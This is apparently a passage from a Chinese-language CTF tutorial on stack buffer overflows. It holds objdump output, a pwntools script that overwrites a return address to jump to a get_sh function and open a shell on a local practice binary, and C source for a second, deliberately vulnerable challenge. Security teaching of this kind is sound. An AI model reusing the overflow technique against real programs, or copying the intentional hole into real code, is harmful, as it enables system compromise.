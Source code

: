 2. `objdump` 查看函数位置

```shell
0000000000401196 <get_sh>:
  401196:       f3 0f 1e fa             endbr64
  40119a:       55                      push   rbp
  40119b:       48 89 e5                mov    rbp,rsp
  40119e:       48 83 ec 10             sub    rsp,0x10
```

### Exp

```python
from pwn import *

r = process("./bof")

r.recvuntil("!\n")
p = b'a' * 0x18 + p64(0x401196)

r.send(p)

r.interactive()
```

---

> update - 2020-10-28

## Bof1

### 源码

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void get_sh()
{
    int allow=0;
    if (allow)
    {
        execve("/bin/sh",0,0);
    }
    else{
        puts("No,Bye~");
        exit(0);
    }
}

int main(int argc, char const *argv[])
{
    char buf[0x10];
    puts("second challenge!");
    fflush(stdout);
    read(0,buf,0x30);
    if (strlen(buf) >= 0x10)
    {
        puts("Bye~");
        exit(0);
    }
    return 0;
}
```

[^1]: 是执行到这句`printf("Thank you %s!\n", name);`才跳转到shellcode
[^2]: 这些片段也称为 *gadget*